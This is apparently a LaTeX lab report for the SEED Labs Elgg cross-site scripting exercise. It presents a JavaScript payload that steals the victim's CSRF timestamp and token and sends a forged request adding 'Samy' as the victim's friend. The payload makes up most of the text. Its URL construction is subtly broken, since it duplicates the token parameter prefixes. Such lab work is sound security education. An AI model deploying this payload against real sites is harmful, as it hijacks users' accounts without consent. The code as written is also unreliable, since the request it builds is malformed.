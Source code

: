 \section{Task 4: Becoming the Victim's Friend}
%
\begin{figure}[h!]
    \centering
    \includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/HTTP_GET_add_friend.png}
    \caption{HTTP GET request for adding Samy as a friend.}
    \label{fig:http_get_add_friend}
\end{figure}

\begin{lstlisting}[caption=Script for XSS attack --- adding Samy as a friend,
                label={lst:xss_add_friend}]
<p><script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; 
var token="&__elgg_token="+elgg.security.token.__elgg_token; 
//Construct the HTTP request to add Samy as a friend.
var sendurl = `http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=${ts}&__elgg_token=${token}`; //FILL IN
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}

alert('Added Samy as a friend!'); // Create a pop-up warning box
</script></p>
\end{lstlisting}

Firstly, we wanted to discover what is the URL pattern for adding Samy as a friend in \emph{Elgg}.
By investigating the HTTP GET request (see \autoref{fig:http_get_add_friend}), we figured
out that the URL pattern is:

\begin{center}
   \url{ http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=<ts>&__elgg_token=<token>}
\end{center}

